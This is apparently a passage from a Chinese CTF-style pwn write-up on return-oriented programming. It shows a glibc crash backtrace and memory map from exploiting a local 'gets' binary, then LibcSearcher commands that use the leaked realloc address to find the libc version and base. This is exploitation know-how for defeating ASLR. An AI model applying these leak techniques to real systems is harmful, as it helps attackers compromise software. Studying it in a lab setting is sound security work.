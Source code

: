 开启dbg的情况下可以看到read函数的地址：

![Alt](img/wiki-ROP)

```s
    [*] Switching to interactive mode
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fc349f997e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x85d80)[0x7fc349fa7d80]
    /lib/x86_64-linux-gnu/libc.so.6(realloc+0x22f)[0x7fc349fa68ef]
    /lib/x86_64-linux-gnu/libc.so.6(+0xde228)[0x7fc34a000228]
    [0x7ffd202b8318]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1569840                            /home/nop/Desktop/gets
    00600000-00601000 r--p 00000000 08:01 1569840                            /home/nop/Desktop/gets
    00601000-00602000 rw-p 00001000 08:01 1569840                            /home/nop/Desktop/gets
    00d0e000-00d30000 rw-p 00000000 00:00 0                                  [heap]
    7fc344000000-7fc344021000 rw-p 00000000 00:00 0
    7fc344021000-7fc348000000 ---p 00000000 00:00 0
    7fc349d0c000-7fc349d22000 r-xp 00000000 08:01 1313730                    /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fc349d22000-7fc349f21000 ---p 00016000 08:01 1313730                    /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fc349f21000-7fc349f22000 rw-p 00015000 08:01 1313730                    /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fc349f22000-7fc34a0e2000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fc34a0e2000-7fc34a2e2000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fc34a2e2000-7fc34a2e6000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fc34a2e6000-7fc34a2e8000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fc34a2e8000-7fc34a2ec000 rw-p 00000000 00:00 0
    7fc34a2ec000-7fc34a312000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fc34a4f1000-7fc34a4f4000 rw-p 00000000 00:00 0
    7fc34a510000-7fc34a511000 rw-p 00000000 00:00 0
    7fc34a511000-7fc34a512000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fc34a512000-7fc34a513000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fc34a513000-7fc34a514000 rw-p 00000000 00:00 0
    7ffd20298000-7ffd202b9000 rw-p 00000000 00:00 0                          [stack]
    7ffd203a9000-7ffd203ac000 r--p 00000000 00:00 0                          [vvar]
    7ffd203ac000-7ffd203ae000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

脚本运行时出现错误，但是可以通过`(realloc+0x22f)[0x7fc349fa68ef]`获取libc版本

```s
    >>> from LibcSearcher import *
    >>> libc=LibcSearcher('realloc',0x7fc349fa68ef-0x22f)
    >>> l=0x7fc349fa68ef-0x22f-libc.dump('realloc')
    [+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
    >>>
```
